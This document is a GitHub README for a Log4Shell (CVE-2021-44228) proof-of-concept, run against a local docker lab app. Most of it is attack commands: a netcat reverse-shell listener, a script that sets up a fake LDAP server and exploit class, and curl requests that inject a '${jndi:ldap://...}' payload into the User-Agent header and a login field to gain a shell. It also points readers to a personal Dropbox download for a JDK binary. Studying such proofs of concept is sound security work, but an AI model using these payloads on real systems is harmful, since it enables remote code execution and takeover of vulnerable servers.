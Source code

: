 # log4j-shell-poc

Cribbed from the great https://github.com/kozmer/log4j-shell-poc !!  
![log4j-shell-poc](https://user-images.githubusercontent.com/4404271/157141049-9ce9dc50-5d8e-4794-84ca-7148825401e4.gif)


A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>

#### Usage :

You need 4 terminals, or 3 terminals and a web browser!  
They are as follows:  

1) attacker terminal 1 of 3 (wow!): reverse shell cc reciever
2) attacker terminal 2 of 3: ldap listener enabler man in the middle jumper
3) attacker terminal 3 of 3: just a terminal to do a curl or use a web browser
4) victim terminal 1 of 1: run java app as docker container

Step 1) In terminal 1, Start  netcat to accept reverse shell connection:  
```py
nc -lvnp 9001
```

Step 2) In terminal 2, Launch the ldap listener jumper:  
**Note:** Must download jdk-8u202-linux-x64.tar.gz and extract to jdk1.8.0_202  
I have saved it to my personal dropbox here www dot dropbox dot com/   s/7c1d5y6naqcrdyh/jdk-8u202-linux-x64.tar.gz?dl=0  
Now run it like this:

```bash
pip install -r requirements.txt
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```
This script will setup the HTTP server (not sure what the http is for, but whatevs) and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.  

Step 3) Our vulnerable application  
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Step 4) Attack!  

```c
curl http://127.0.0.1:8080 -v  | grep session  
<snip>  
< HTTP/1.1 200 OK  
< Server: Apache-Coyote/1.1  
< Set-Cookie: JSESSIONID=2C4651F7F8F1FD3C73E544A7C5E3A600; Path=/; HttpOnly  
< Content-Type: text/html;charset=ISO-8859-1  
<snip>  
curl -v -A "\${jndi:ldap://localhost:1389/a}" -X POST -d uname="\${jndi:ldap://localhost:1389/a}" --cookie JSESSIONID=2C4651F7F8F1FD3C73E544A7C5E3A600 http://127.0.0.1:8080/login  
<snip>  
>  
* upload completely sent off: 37 out of 37 bytes  
```  

Step 5) Profit!!  

In terminal 1, type 'env' or 'whoami' and have a biscotti ... you earned it!  



Once it is running, you can access it on localhost:8080

Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.


Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

